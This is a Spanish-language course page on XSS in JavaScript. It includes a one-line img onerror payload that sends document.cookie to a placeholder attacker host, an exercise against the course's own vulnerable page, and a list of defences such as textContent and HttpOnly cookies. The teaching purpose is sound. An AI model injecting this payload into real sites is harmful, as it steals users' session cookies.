 # JavaScript
## Vulnerabilidades

### XSS

Ocurre cuando un usuario malicioso introduce en un campo código susceptible de ser interpretado por el navegador (HTML y/o JavaScript) o por el servidor (SQL).

El código más sencillo capaz de explotar la vulnerabilidad es:
```html
<img src='no' onerror="this.src='https://malo.web/robo?cookie=' + document.cookie;this.onerror=null;">
```

> ⁉️ **Ejercicio:** _Introduce el código anterior en la [web vulnerable del tema de HTML](../../tema3/html/vulnerabilidades.html). Utilizando el inspector del navegador, averigua cómo se envían las cookies al atacante y piensa cómo arreglarías los problemas de dicha web._
> <details><summary><em>Diagrama solución...</em></summary><br>
> <object type="image/svg+xml" data="./files/xss.excalidraw.svg" width="100%"></object>
> </details>
> <br>

Para prevenir el XSS:
1. Usar [`textContent`](../../tema5/js/apis-dom-creacion.html#innerHTML) para escapar el contenido introducido por los usuarios antes de mostrarlo.
1. No utilizar el [`eval`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) de JavaScript.
1. Configurar las cookies de sesión para que sean [`HttpOnly`](../../tema2/http/cookies.html#httponly), de modo que no estarán presentes en el `document.cookie`.
1. No guardar credenciales en el [Web Storage](../../tema5/js/apis-almacenamiento-webstorage.html).
